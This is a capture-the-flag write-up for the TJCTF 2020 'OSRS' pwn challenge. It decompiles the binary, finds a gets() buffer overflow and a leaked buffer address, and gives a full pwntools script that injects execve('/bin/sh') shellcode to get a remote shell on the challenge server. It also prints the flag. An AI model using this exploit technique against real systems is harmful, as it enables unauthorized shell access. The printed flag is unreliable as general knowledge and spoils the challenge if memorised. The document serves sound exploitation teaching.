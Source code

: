 # OSRS

> My friend keeps talking about Old School RuneScape. He says he made a
> service to tell you about trees.  
>  
> I don't know what any of this means but this system sure looks old! It has
> like zero security features enabled...  
>  
> nc p1.tjctf.org 8006

## Description

Let's decompile the binary with Ghidra.

```c  
undefined4 main(void)  
{  
 int iVar1;  
  
 setbuf(stdout,(char *)0x0);  
 setbuf(stdin,(char *)0x0);  
 setbuf(stderr,(char *)0x0);  
 iVar1 = get_tree();  
 if (0 < iVar1) {  
   puts(*(char **)(trees + iVar1 * 8 + 4));  
 }  
 return 0;  
}

int get_tree(void)  
{  
 int iVar1;  
 char local_110 [256];  
 int local_10;  
  
 puts("Enter a tree type: ");  
 gets(local_110);  
 local_10 = 0;  
 while( true ) {  
   if (0xc < local_10) {  
     printf("I don\'t have the tree %d :(\n",local_110);  
     return 0xffffffff;  
   }  
   iVar1 = strcasecmp(*(char **)(trees + local_10 * 8),local_110);  
   if (iVar1 == 0) break;  
   local_10 = local_10 + 1;  
 }  
 return local_10;  
}  
```

In the `get_tree` function, we see a potential buffer overflow enabled by the
function `gets`.

## Solution

As the description suggests, there is no security feature activated, including
no PIE or NX. Therefore we can include a shellcode in the buffer and execute
it.

However ASLR seems to be enabled. Thanksfully, the line `I don't have the
tree` leaks the address of the buffer, so we can retrieve it, jump again to
the `get_tree` function and perform our exploit, this time knowing the address
of the buffer.

```python  
from pwn import *

sh = remote('p1.tjctf.org', 8006)

ret_addr = 0x08048642  
get_tree_addr = 0x08048612  
offset = 256 + 16 # number of bytes from buffer to ret addr  
shellcode = asm(shellcraft.i386.linux.execve('/bin/sh'))

# First step: get address of buffer  
print(sh.recvuntil("type:").decode())

payload = b'a'*offset + p32(get_tree_addr)  
sh.sendline(payload)

print(sh.recvuntil("tree").decode(), end="")  
answer = sh.recvuntil(":(").decode()  
print(answer)

buf_addr = (int(answer.split(":(")[0])) & ((1 << 32) - 1)  
print(hex(buf_addr))

# Second step: insert shell code and jump there  
print(sh.recvuntil("type:").decode())  
payload = shellcode + b'\x00'*(offset - len(shellcode)) + p32(buf_addr) +
p32(0)

sh.sendline(payload)  
sh.interactive()  
```

Flag: `tjctf{tr33_c0de_in_my_she115}`

Original writeup (https://github.com/apoirrier/CTFs-
writeups/blob/master/TJCTF2020/Pwn/OSRS.md).